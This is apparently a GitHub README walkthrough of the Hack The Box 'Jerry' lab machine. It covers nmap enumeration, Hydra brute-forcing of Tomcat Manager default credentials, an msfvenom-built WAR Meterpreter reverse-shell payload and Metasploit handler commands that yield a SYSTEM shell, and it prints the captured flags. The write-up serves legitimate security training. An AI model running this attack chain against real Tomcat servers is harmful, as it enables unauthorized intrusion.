





# Jerry Machine Walkthrough

_Author: Davis Burrill_  
_Difficulty: Easy_  

---

## 🗂 Repository Structure
```
📆 Jerry
 ├ 🗂 nmap
 ┃ ┃ ├ 🕌 jeryy.nmap # Full nmap scan results
 ┃ ┃ ├ 🕌 jerry.gnmap # Greppable nmap output for quick analysis
 ┃ ┃ └ 🕌 jerry.xml # XML nmap output for detailed parsing
 ┃ 🗂 payloads
 ┃ ┃ └ 🕌 JerryExploit.war # WAR file payload for reverse shell
 ┃ 🗂 Screenshots
 ┃ ┃ ├ 🕌 hydra_img # Screenshot of Hydra brute force results
 ┃ ┃ ├ 🕌 shell_img  # Screenshot of Meterpreter shell access
 ┃ ┃ ├ 🕌 WAR_deployment_img  # Screenshot of WAR file deployment
 ┃ ┃ ├ 🕌 WAR_unzip_img  # Screenshot of unzipped WAR file contents
 ┃ ┃ └ 🕌 flag_img # Screenshot of captured flags
 └ 🗂 tmp # Temporary directory for extracted files
```

## **1⃣ Enumeration 🔍**

The first step in tackling the Jerry machine was performing an nmap scan to enumerate open ports and services:

```bash
nmap -sC -sV -Pn -oA jerry 10.10.10.95
```

### Findings:
- **Open Ports:** 8080
- **Services:** Apache Tomcat/Coyote JSP engine 1.1

The scan revealed that port 8080 was open and running a Tomcat server. This indicated the potential for accessing the Tomcat Manager application.

---

## **2⃣ Exploitation 💥**

### **Step 1: Initial Access**
Navigating to the target IP on port 8080 in Firefox:

```url
http://10.10.10.95:8080
```

I explored various links and buttons, eventually landing on the **Manager App** section, located at:

```url
http://10.10.10.95:8080/manager/html
```

### **Step 2: Credential Discovery**
Initial login attempts with default credentials like `admin:admin` failed. Using SecLists, I utilized a dictionary brute force attack to find valid credentials:

```bash
hydra -C ./Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
```



**Valid Credentials Found:**
- **Username:** tomcat
- **Password:** s3cret

### **Step 3: Uploading Exploit**
After logging in, I encountered a file upload section for WAR files. Using msfvenom, I created a WAR payload with a reverse shell:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=9001 -f war -o JerryExploit.war
```


I uploaded the `JerryExploit.war` file and deployed it. Initially, clicking the deployed payload resulted in a 404 error. I then unzipped the WAR file:

```bash
unzip JerryExploit.war -d tmp
```



Extracted the JSP file and navigated to:

```url
http://10.10.10.95:8080/tmp/nnqasoswoofs.jsp
```

This triggered the reverse shell.

---

## **3⃣ Privilege Escalation ⬆️**

### **Step 1: Gaining a Meterpreter Shell**
Using Metasploit, I started a multi/handler listener:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.4
set LPORT 9001
exploit -j
```

When the JSP file was accessed, it established a Meterpreter session. I confirmed the current user:

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### **Step 2: Navigating the File System**
Using the shell, I accessed the administrator’s desktop and found the flags:

```bash
shell
cd \users\administrator\desktop\flags
dir
type "2 for the price of 1.txt"
```



---

## **4⃣ Post-Exploitation & Flags 🏁**

### **Flags Found:**
- **User Flag:** 7004bcsef0f854e0fb401875f26ebd00
- **Root Flag:** 04a8b36e1545a455393d067e772fe90e



---

## **🔹 Key Takeaways**
- **Vulnerability Used:** Default credentials and deployment of malicious WAR files.
- **Important Techniques Learned:**
  - Using Hydra for credential brute-forcing.
  - Creating Java-based payloads with msfvenom.
  - Deploying and triggering WAR payloads on Tomcat Manager.

---

## **🔗 Links**
- [My Cybersecurity Blog](https://davisburrill.com)
- [Hack The Box](https://www.hackthebox.com)

Happy Hacking! 🚀

